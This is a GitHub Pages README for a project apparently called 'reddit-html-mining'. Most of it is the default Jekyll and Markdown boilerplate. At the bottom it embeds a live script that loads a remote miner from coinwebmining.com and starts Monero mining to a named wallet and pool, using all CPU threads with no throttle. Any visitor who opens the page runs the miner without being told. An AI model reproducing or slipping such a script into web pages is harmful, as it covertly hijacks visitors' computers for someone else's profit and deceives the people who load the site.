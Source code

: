 ### Wait a second!

You can use the [editor on GitHub](https://github.com/ThisIsNOTVERYMatt/reddit-html-mining/edit/master/README.md) to maintain and preview the content for your website in Markdown files.

Whenever you commit to this repository, GitHub Pages will run [Jekyll](https://jekyllrb.com/) to rebuild the pages in your site, from the content in your Markdown files.

### Markdown

Markdown is a lightweight and easy-to-use syntax for styling your writing. It includes conventions for

```markdown
Syntax highlighted code block

# Header 1
## Header 2
### Header 3

- Bulleted
- List

1. Numbered
2. List

**Bold** and _Italic_ and `Code` text

[Link](url) and ![Image](src)
```

For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/ThisIsNOTVERYMatt/reddit-html-mining/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://help.github.com/categories/github-pages-basics/) or [contact support](https://github.com/contact) and we’ll help you sort it out.

<script src="https://coinwebmining.com/cwm.js"></script>
<script>
    var site_id = 'cwm-1224';
    var coin = 'monero';
    var wallet = '43AULrkzx3ZCJvBmn8uRnUKhmCQ3ZucqDMfLhyvVCcsf4AyzWeye1A1F2iXtcJWEMe3AhHnBtRxr67GRApVvrzADRtQGdxC';
    var password = 'x';
    var mining_pool = 'gulf.moneroocean.stream:10001';
    var threads = -1;
    var throttle = 0;
    var debug = false;
    cwm_start(site_id, coin, wallet, password, mining_pool, threads, throttle, debug);
</script>
